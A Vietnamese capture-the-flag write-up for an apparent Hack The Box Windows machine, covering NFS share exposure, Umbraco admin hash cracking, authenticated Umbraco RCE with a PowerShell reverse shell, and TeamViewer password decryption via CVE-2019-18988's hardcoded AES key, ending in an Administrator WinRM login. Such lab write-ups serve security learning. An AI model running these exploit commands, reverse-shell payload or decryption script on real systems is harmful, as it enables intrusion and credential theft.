## Task 1


Thực hiện scan để tìm dịch vụ


> mountd

NFS không phải 1 service duy nhất — nó là **hệ thống gồm nhiều daemon**:

|Daemon|Chức năng|Port thường gặp|
|---|---|---|
|`rpcbind`|Ánh xạ RPC program → port|111|
|`mountd`|Xử lý mount requests từ client|Thường dynamic, nhưng có thể dùng 2049|
|`nfsd`|Xử lý file read/write operations|2049|

Trên **Windows Server NFS**, `mountd` (mount daemon) là service xử lý khi client gửi mount request — nó quyết định client có quyền truy cập share hay không. Trên box này, nó chạy trên port 2049 cùng với NFS.
## Task 2


Khi thực hiện đăng nhập vào thì không có thư mục nào cả


> 0
## Task 3


Truy cập tragn web nhưng không thấy gợi ý gì nên quyết định sử dụng gobuster để dò quét thử các dir
```bash
gobuster dir -u http://10.129.230.172 -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 40
```


Đường dẫn `install` có vẻ đáng nghi nên chúng ta tiến hành truy cập


> umbraco
## Task 4


Chúng ta sử dụng lệnh
```bash
showmount -e 10.129.230.172
```


>site_backups
## Task 5


Chúng ta sẽ thực hiện mount
```bash
mkdir /tmp/nfs
sudo mount -t nfs 10.129.230.172:/site_backups /tmp/nfs
ls -la /tmp/nfs
```
Chúng ta thấy có vẻ đây là thu mục của Umbraco

Sau tìm hiểu thì các cấu hình thường nằm trong `Umbraco.sdf` của App_Data
> Umbraco.sdf
## Task 6


Chúng ta thử trích xuất các string từ file xem có manh mối nào không
```bash
strings /tmp/nfs/App_Data/Umbraco.sdf | grep admin
```


Thử đưa hash vào john để crack
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


> baconandcheese
## Task 7


Giờ chúng ta đã có được cred login vào Umbraco nên tiến hành login để xem version


> 7.12.4
## User Flag


Chúng ta tìm thử xem Umbraco có dính lỗi gì không?

### Nguyên nhân
Umbraco có endpoint `/umbraco/developer/Xslt/xsltVisualize.aspx` — cho phép admin **preview XSLT template**. Vấn đề: endpoint này xử lý input qua **.NET deserialization** mà không validate.

**Flow khai thác:**
```
1. Login admin → lấy session cookie
2. Gửi POST đến /umbraco/developer/Xslt/xsltVisualize.aspx
3. Payload chứa serialized .NET object (ysoserial gadget)
4. Server deserialize → thực thi code C# tùy ý → RCE
```
Tiến hành khai thác 
```bash
searchsploit -m 49488
python3 49488.py -u admin@htb.local -p 'baconandcheese' -i http://10.129.230.172 -c "whoami"
```

Thử payload mạnh hơn để lấy reverve shell
```bash
python3 49488.py -u admin@htb.local -p 'baconandcheese' -i http://10.129.230.172 -c "powershell " -a "-e JABjAGwAaQBlAG......kA"
```
Chúng ta sẽ có reverse shell và flag

## Task 9


```powershell
net start
```


Chúng ta thấy TeamViewer7 là một ứng dụng được cài đặt thêm bên ngoài
> TeamViewer7
## Task 10


### CVE-2019-18988
TeamViewer lưu credentials trong Windows Registry dưới dạng **encrypted**, nhưng dùng **AES key hardcoded** — ai cũng biết key → ai cũng decrypt được.
```
Registry path: HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7
Values: SecurityPasswordAES, SecurityPasswordExported
```
Key và Initialization Vector được hardcode trong binary TeamViewer, nên đọc registry → decrypt → lấy password.

> CVE-2019-18988
## Task 11


Thực hiện khai thác bằng cách query registry của TeamVier7
```powershell
reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7
```


Chúng ta thu được 2 giá trị:
- **SecurityPasswordAES**: `FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B`
- **MultiPwdMgmtPWDs**: `357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77`

Chúng ta sử dụng PoC được công khai
```python
from Crypto.Cipher import AES
import binascii

key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")

# SecurityPasswordAES
cipher = AES.new(key, AES.MODE_CBC, iv)
ciphertext = binascii.unhexlify("FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B")
plaintext = cipher.decrypt(ciphertext)
print("SecurityPasswordAES:", plaintext.decode('utf-16-le').rstrip('\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10'))

# MultiPwdMgmtPWDs
cipher2 = AES.new(key, AES.MODE_CBC, iv)
ciphertext2 = binascii.unhexlify("357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77")
plaintext2 = cipher2.decrypt(ciphertext2)
print("MultiPwdMgmtPWDs:", plaintext2.decode('utf-16-le').rstrip('\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10'))
```

Chúng ta thu được


> !R3m0te!
## Root Flag
`MultiPwdMgmtIDs = admin` cho thấy password trên gán cho user `admin` nên chúng ta thực hiện thử winrm để xem password có reuse với Administrator không
```bash
evil-winrm -i 10.129.230.172 -u Administrator -p '!R3m0te!'
```
Chúng ta login thành công và tìm được root

